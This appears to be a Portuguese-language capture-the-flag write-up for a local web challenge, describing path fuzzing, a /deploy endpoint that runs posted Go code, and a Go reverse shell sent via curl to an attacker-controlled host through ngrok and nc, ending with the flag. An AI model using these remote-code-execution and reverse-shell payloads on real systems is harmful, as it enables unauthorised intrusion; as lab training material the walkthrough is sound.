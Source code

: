 Para acessar o desafio, siga estas etapas:

Acesse a página do desafio. Ao entrar, você verá a seguinte imagem:

![alt text](images/init.png)

Após encontrar irá utilizar fuzer, com o ffuf ou gobuster para encontrar path que não estão aparente, após rodar irá encontrar os seguintes path

```sh
/public -> pasta publica
/health -> verificação de container ativo
/deploy
```

após encontrar a pasta publica terá que encontrar um arquivo dentro dela mas a mesma só recebe query params, segue a imagem abaixo:

![alt text](images/public.png)

com base nisso terá que rodar um novo fuzzer mas com uma terminação aparente que é .sh, após rodar o fuzzy irá encontrar a seguinte arquivo.

![alt text](images/deploy.png)


Após encontrar esse arquivo, ele irá dar uma flag por conta do fuzz, com isso iremos rodar o comando que achamos.

```sh
curl -X POST -d 'package main
import (
		"fmt"
		"os/exec"
)

func main() {
		// Comando para executar o script shell
		cmd := exec.Command("cat", "flag.txt")

		// Executa o comando e captura
		output, err := cmd.CombinedOutput()      
		if err != nil {
				fmt.Println("Erro ao executar o script:", err)
				return
		}
		// Imprime 
		fmt.Println(string(output)) 
}
' http://localhost:8080/deploy

```
Retornando o seguinte valor:

![alt text](images/deploy-exec.png)

Com o retorno acima identificamos que não tem flag nesse arquivo mas nos dar portas para acessar esse container usando shell reverse em golang.

Primeiro passo crie um proxy reverse com ngrok

![alt text](images/ngrock.png)

Após subir o container coloque o seu ngrock no campo do shell com shell reverse para a port a do seu nc

nc 
```sh
nc -l 127.0.0.1 4444
```
curl
```sh
curl -X POST -v \
  -d 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","seu_host_aqui_com_a_porta");cmd:=exec.Command("sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' \
```

![alt text](images/connect.png)

Após rodamos o seguinte comando:

```sh
/bin/bash -i 
```

Agora vá para pasta chamada public/flag_pwn.txt

```sh
cat ../public/flag_pwn.txt
# Extreme{6630db853468e9c768a584981349e924}
```
